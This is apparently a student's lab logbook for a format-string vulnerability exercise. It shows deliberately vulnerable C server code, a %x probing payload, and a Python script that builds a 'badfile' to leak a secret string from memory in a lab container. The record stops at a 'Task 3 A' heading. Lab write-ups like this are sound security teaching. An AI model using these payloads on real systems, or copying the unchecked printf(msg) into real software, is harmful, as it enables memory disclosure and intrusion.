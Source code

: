 # Logbook 7
```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg)
{
// This line has a format-string vulnerability
printf(msg);
}
int main(int argc, char **argv)
{
char buf[1500];
int length = fread(buf, sizeof(char), 1500, stdin);
printf("Input size: %d\n", length);
myprintf(buf);
return 1;
}
```
## Pre steps
- We executed the make file in servers
![Alt text](Images/1image-1.png)
 - We then built the docker
![Alt text](Images/1image.png)
 - In the next step we run the code that starts the server 
![Alt text](Images/image-1.png)
## Task 1
 - We tested the server using this code
![Alt text](Images/1image-2.png)
 - The output of the server is this
![Alt text](Images/1image-3.png)
To crach the server we simply ran the this code that makes echo of %s using this code the server will try to access a string with an address mostly invalid wich will crach the printf
![Alt text](Images/1image-4.png)
We can check that the function crashed because it didnt print the smiles
![Alt text](Images/1image-5.png)

## Task 2 A
To check how many %x we can put in the input until we used this code to check when we can see 41 wich is hechadecimal to A we used this file with the name Payload2.txt
```txt
AAAA %x - %x - %x - %x - %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x -1 %x
```

We can see four 41 in the last print of the server we needed 63 %x to get to the top of the input
![Alt text](Images/1image-6.png)

## Task 2 B
To use we used this code wich was already mostly done with the name buil_string.py and we changed a little bit of the code 
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```
We runned the python code
![Alt text](Images/1image-8.png)
We executed the attack like this
![Alt text](Images/1image-7.png)
The output of the server was a success
![Alt text](Images/1image-9.png)

## Task 3 A
